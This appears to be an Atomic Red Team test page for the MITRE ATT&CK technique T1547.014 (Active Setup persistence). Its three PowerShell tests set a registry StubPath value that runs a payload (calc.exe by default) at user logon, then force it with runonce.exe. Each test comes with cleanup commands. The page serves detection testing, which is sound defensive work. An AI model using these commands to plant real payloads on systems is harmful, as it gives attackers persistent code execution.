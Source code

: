 # T1547.014 - Active Setup
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/014)
<blockquote>Adversaries may achieve persistence by adding a Registry key to the Active Setup of the local machine. Active Setup is a Windows mechanism that is used to execute programs when a user logs in. The value stored in the Registry key will be executed after a user logs into the computer.(Citation: Klein Active Setup 2010) These programs will be executed under the context of the user and will have the account's associated permissions level.

Adversaries may abuse Active Setup by creating a key under <code> HKLM\SOFTWARE\Microsoft\Active Setup\Installed Components\\</code> and setting a malicious value for <code>StubPath</code>. This value will serve as the program that will be executed when a user logs into the computer.(Citation: Mandiant Glyer APT 2010)(Citation: Citizenlab Packrat 2015)(Citation: FireEye CFR Watering Hole 2012)(Citation: SECURELIST Bright Star 2015)(Citation: paloalto Tropic Trooper 2016)

Adversaries can abuse these components to execute malware, such as remote access tools, to maintain persistence through system reboots. Adversaries may also use [Masquerading](https://attack.mitre.org/techniques/T1036) to make the Registry entries look as if they are associated with legitimate programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - HKLM - Add atomic_test key to launch executable as part of user setup](#atomic-test-1---hklm---add-atomic_test-key-to-launch-executable-as-part-of-user-setup)

- [Atomic Test #2 - HKLM - Add malicious StubPath value to existing Active Setup Entry](#atomic-test-2---hklm---add-malicious-stubpath-value-to-existing-active-setup-entry)

- [Atomic Test #3 - HKLM - re-execute 'Internet Explorer Core Fonts' StubPath payload by decreasing version number](#atomic-test-3---hklm---re-execute-internet-explorer-core-fonts-stubpath-payload-by-decreasing-version-number)


<br/>

## Atomic Test #1 - HKLM - Add atomic_test key to launch executable as part of user setup
This test will create an "atomic_test" key under 'HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components' to launch calc by configuring an active setup executable and 
forcing to run active setup using the "runonce.exe /AlternateShellStartup" command. 
Without the "runonce.exe /AlternateShellStartup" command it would run during the next logon for each user.

Note: If you logout before running the cleanup command, you will be required to go through the OOBE (out-of-box experience) setup sequence to log back in. 
The payload will only run once unless the cleanup command is run in between tests.

[Active Setup Explained](https://helgeklein.com/blog/active-setup-explained/)

**Supported Platforms:** Windows


**auto_generated_guid:** deff4586-0517-49c2-981d-bbea24d48d71





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components" -Name "atomic_test" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "(Default)" "ART TEST" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "StubPath" "#{payload}" -Force 
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
Remove-Item "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - HKLM - Add malicious StubPath value to existing Active Setup Entry
This test will add a StubPath entry to the Active Setup native registry key associated with 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) 
Said key doesn't have a StubPath value by default, by adding one it will launch calc by forcing to run active setup using runonce.exe /AlternateShellStartup. 
Without the last command it will normally run on next user logon. Note: this test will only run once successfully if no cleanup command is run in between test.

**Supported Platforms:** Windows


**auto_generated_guid:** 39e417dd-4fed-4d9c-ae3a-ba433b4d0e9a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" "StubPath" "#{payload}" -Force
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "StubPath" -Force
Remove-ItemProperty "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Force
```





<br/>
<br/>

## Atomic Test #3 - HKLM - re-execute 'Internet Explorer Core Fonts' StubPath payload by decreasing version number
This test will decrease the version number of the 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) registry key for the current user, 
which will force the StubPath payload (if set) to execute.

**Supported Platforms:** Windows


**auto_generated_guid:** 04d55cef-f283-40ba-ae2a-316bc3b5e78c






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Value "0,0,0,0"
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```






<br/>
